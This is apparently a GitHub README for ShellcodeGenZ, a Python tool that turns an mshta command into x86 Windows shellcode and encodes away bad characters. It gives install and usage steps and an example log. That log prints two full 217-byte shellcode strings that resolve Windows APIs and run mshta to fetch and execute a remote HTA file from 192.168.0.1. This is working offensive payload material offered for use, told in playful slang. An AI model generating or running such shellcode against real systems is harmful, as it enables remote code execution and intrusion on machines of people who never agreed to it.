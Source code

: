 
# ShellcodeGenZ
![image](https://github.com/user-attachments/assets/8ba517e4-acfd-4162-9720-fe8ec78af641)
![image](https://github.com/user-attachments/assets/8984c1dc-53f4-4f5b-b887-653461ee312e)

Yo, welcome to ShellcodeGenZ, the dopest shellcode generator for commands, crafted by Zeyad Azima (https://zeyadazima.com - contact@zeyadazima.com). This tool's straight-up slayin' the game by whippin' up clean shellcode, yeetin' bad chars like nobody's biz, and droppin' logs so you know what's poppin'. Built with Gen-Z energy, it's got manual and auto modes to fix bad chars, checks for 0x00 like a boss, and keeps the vibes no cap. This is your go-to for shellcode that slaps.

## What's the Vibe?

ShellcodeGenZ takes your commands (like mshta.exe http://192.168.0.1/azi.hta) and turns 'em into shellcode that's ready to flex. It hunts down bad chars (like 0x0a, 0x0b, or the default 0x00), lets you yeet 'em manually or auto with add/subtract offsets, and logs every move so you're never lost. If 0x00 sneaks into push instructions, it's a hard pass—script's outtie. With colored output and Gen-Z slang, it's like codin' with your besties.

## Features That Slap
- Shellcode Gen: Turns commands into lit shellcode.
- Bad Char Yeeter: Spots bad chars and lets you fix 'em manual (pick your hex) or auto (add/subtract offsets).
- Manual Offset Drip: Choose your own offset for auto mode, or let it test 0x01 to 0xff.
- 0x00 Check: Always yeets 0x00 and bails if it's in push instructions.
- Logs for Days: Detailed logs with Gen-Z flair so you know what's good.
- Colorful Vibes: Rockin' colorama for that terminal glow-up.

## Gettin' Set Up

To dodge the externally-managed-environment drama, we settin' up a virtual env. Here's the tea:

1. Make a Virtual Env:
   ```bash
   python3 -m venv venv
   source venv/bin/activate
   ```

2. Snag the Dependencies:
   ```bash
   pip install keystone-engine colorama
   ```

3. Grab the Script:
   Clone this repo or yoink shellcode_genz.py from the files.

4. Yeet the Env (When Done):
   ```bash
   deactivate
   ```

## How to Slay with ShellcodeGenZ

1. Run the Script:
   Fire it up in your virtual env:
   ```bash
   python3 ShellcodeGenZ.py
   ```

2. Drop Your Inputs:
   - mshta command: Like mshta.exe http://192.168.0.1/azi.hta.
   - Bad chars: Comma-separated hex (e.g., 0a,0b). It always checks 0x00, no cap.

3. Yeet Bad Chars:
   - If bad chars pop up, choose to yeet 'em (Y/N).
   - Pick manual (drop new hex values) or automated (add/subtract offsets).
   - For auto, select manual offset (like 01) or automatic (tests all offsets).

4. Check the Output:
   - Shellcode drops as a byte string (e.g., b"\x...\").
   - Logs spill the tea on every step, from instructions to bad char fixes.

### Example Run

Input:
```
ShellcodeGenZ by: Zeyad Azima ( https://zeyadazima.com - contact@zeyadazima.com ) - let's get this shellcode poppin'!
Drop your mshta command to make it lit: mshta.exe https://192.168.0.1/azi.h1
Spill the bad chars to yeet (comma vibes, like '0a,0b'): 01,20,80,81
```

Output (shortened for vibes):
```
2025-04-28 03:11:20,452 - INFO - mshta instructions are straight fire:
push 0x31682e69;
push 0x7a612f31;
push 0x2e302e38;
push 0x36312e32;
push 0x39312f2f;
push 0x3a737074;
push 0x74682065;
push 0x78652e61;
push 0x7468736d;
2025-04-28 03:11:20,454 - INFO - mshta shellcode’s droppin’ like a banger: shellcode = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x98\xfe\x8a\x0e\xe8\xa7\xff\xff\xff\x89\x45\x12\x68\x83\xb9\xb5\x78\xe8\x9a\xff\xff\xff\x89\x45\x16\x31\xc9\x51\x68\x69\x2e\x68\x31\x68\x31\x2f\x61\x7a\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x70\x73\x3a\x68\x65\x20\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68\x74\x54\x5b\x31\xc9\x51\x53\xff\x55\x12\x31\xc9\x51\x6a\xff\xff\x55\x16"!
2025-04-28 03:11:20,454 - INFO - Shellcode’s flexin’ at 217 bytes, no cap!
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x81 lurkin’ at index 2! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x81
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x20 lurkin’ at index 25! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x20
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x01 lurkin’ at index 55! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x20 lurkin’ at index 62! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x20
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 63! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 77! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 91! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 104! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 113! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 118! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x20 lurkin’ at index 187! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x20
Wanna yeet those bad chars? (Y/N): Y
You goin’ manual or auto for yeetin’ bad chars? (manual/automated): automated
Yo, what’s the move? Add or subtract for encodin’? (add/subtract): add
You droppin’ your own offset or we auto-pickin’? (manual/automatic): automatic
2025-04-28 03:11:51,821 - INFO - Kickin’ off bad char yeetin’ with add vibes and automatic offset slay
2025-04-28 03:11:51,821 - INFO - Bad chars we gotta yeet: 0x01, 0x20, 0x81
2025-04-28 03:11:51,821 - INFO - Chars we dodgin’: 0x01, 0x20, 0x80, 0x81, 0x00
2025-04-28 03:11:51,822 - INFO - Goin’ auto mode, testin’ offsets 0x01 to 0xff like a boss!
2025-04-28 03:11:51,822 - INFO - Dippin’ past offset 0x01 ‘cause it’s a bad char
2025-04-28 03:11:51,822 - INFO - Checkin’ offset 0x02... let’s see if it slaps
2025-04-28 03:11:51,822 - INFO -   Bad char 0x01 turnin’ into 0x03 (add 0x02)
2025-04-28 03:11:51,822 - INFO -   Bad char 0x20 turnin’ into 0x22 (add 0x02)
2025-04-28 03:11:51,822 - INFO -   Bad char 0x81 turnin’ into 0x83 (add 0x02)
2025-04-28 03:11:51,822 - INFO - YO, offset 0x02 is straight fire for add!
2025-04-28 03:11:51,822 - INFO - Replacements droppin’: 0x01 -> 0x03, 0x20 -> 0x22, 0x81 -> 0x83
2025-04-28 03:11:51,822 - INFO - Shellcode’s lookin’ fresh with new vibes: shellcode = b"\x89\xe5\x83\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x22\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x03\xdf\x8b\x4f\x18\x8b\x47\x22\x03\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x03\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x03\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x03\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x03\xda\x8b\x04\x8a\x03\xd8\x89\x44\x24\x1c\x61\xc3\x68\x98\xfe\x8a\x0e\xe8\xa7\xff\xff\xff\x89\x45\x12\x68\x83\xb9\xb5\x78\xe8\x9a\xff\xff\xff\x89\x45\x16\x31\xc9\x51\x68\x69\x2e\x68\x31\x68\x31\x2f\x61\x7a\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x70\x73\x3a\x68\x65\x22\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68\x74\x54\x5b\x31\xc9\x51\x53\xff\x55\x12\x31\xc9\x51\x6a\xff\xff\x55\x16"!
2025-04-28 03:11:51,823 - INFO - New shellcode length’s poppin’ off at 217 bytes!
ShellcodeGenZ by: Zeyad Azima ( https://zeyadazima.com - contact@zeyadazima.com ) - we slayed it, fam!
```

## Got Tea?

Wanna add more drip, report a bug, or just vibe? Hit up the issues tab or slide into Zeyad’s DMs at contact@zeyadazima.com. Let’s keep ShellcodeGenZ the most lit shellcode tool in the game.
